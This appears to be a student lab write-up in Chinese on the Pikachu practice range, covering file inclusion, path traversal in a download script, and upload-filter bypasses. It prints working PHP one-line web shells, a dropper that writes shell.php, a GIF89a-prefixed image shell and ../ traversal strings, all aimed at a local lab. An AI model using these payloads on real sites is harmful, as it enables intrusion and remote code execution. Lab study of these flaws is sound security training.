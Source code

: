 # 实验2

## 一、文件包含

由于网站功能需求，会让前端用户选择要包含的文件，而开发人员又没有对要包含的文件进行安全考虑，就导致攻击者可以通过修改文件的位置来让后台执行任意文件，从而导致文件包含漏洞

### 1.本地文件包含

查看靶场的URL，猜测此时的file.php一共有五个，我们可以尝试修改`filename=file6.php`

![1718516905589](./1718516905589.png)

![1718517307200](./1718517307200.png)

也可以随机输入一个参数，查看报错。根据报错判断其源文件所在位置，因此可以构造参数 `../../../../flag.txt`

![1718517906185](./1718517906185.png)

![1718518024708](./1718518024708.png)

### 2.远程文件包含

能通过url地址对远程的文件进行包含, 这也意味着攻击者可以传入任意的代码。同时根据提示，我们查阅了include()函数的用法：include语句用于在执行流中插入写在其他文件中的有用的代码。

因此我们为了引入一句话木马，在某一个链接指向的文件中设置一个恶意脚本，可以在网站目录下创建包含一句话木马的恶意文件，代码如下

```
<?php fputs(fopen('shell.php','w'),'<?php @eval($_POST[hack]);?>');?>
```

为了方便起见，我们将其放置在phpstudy的根目录下，使用tomcat服务器即可访问。

基于此我们可以构造一个URL：`http://127.0.0.1/pikachu/vul/fileinclude/fi_remote.php?filename=http://127.0.0.1/hack.txt&submit=提交`执行后，如果开启上帝视角，查看网站目录，可以看出其存在一个shell.php文件，内容为：

```php
<?php @eval($_POST[hack]);?>
```

![1718519973474](./1718519973474.png)

我们启动蚁剑对其进行链接，成功连接

![1718520308169](./1718520308169.jpg)

![1718520457737](./1718520457737.png)

## 二、文件下载漏洞

点击图片进行下载，使用BP抓包后不放，就可以看见下载的URL

```
http://127.0.0.1/pikachu/vul/unsafedownload/execdownload.php?filename=ai.png
```

![1718520845087](./1718520845087.png)

对其进行修改，修改为`filename=../../../../flag.txt`，放包，发现下载了根目录的文件

![1718521012502](./1718521012502.jpg)

## 三、文件上传漏洞

### 1.前端检查

阅读源码，如果发现类似于这种在前端通过后缀名判断文件类型的，可以通过BP抓包来修改。如我们编写一个一句话木马。将其后缀名修改为`jpg`，绕过前端检查后，通过BP抓包来修改后缀并使用蚁剑连接即可

```
<?php @eval($_POST[hack]);?>
```

![1718617998062](./1718617998062.png)

![1718618333836](./1718618333836.png)

![1718618365532](./1718618365532.png)

### 2.后端检查MIME

对于后端检查MIME，也就是BP抓包中的`content_type`，我们只需要按照他的过滤状态来绕过检查，实际上并没有检查内容

![1718618672059](./1718618672059.png)

![1718618716255](./1718618716255.png)

### 3.getmagesize函数

getmagesize可以获取图片的宽高的信息，如果上传到不是图片文件，那么该函数就获取不到信息，就不允许上传，因此我们可以制作图片木马或再木马文件内容头部添加`GIF89a`(Gif图片文件头), 然后利用文件包含漏洞来解析图片木马

```php
GIF89a <?php @eval($_POST[hack]);?>
```

可以看出，上传后的路径`uploads/2024/06/17/86291666702aeb7178e299664289.jpg`，这时可以利用蚁剑连接。

![1718627204895](./1718627204895.png)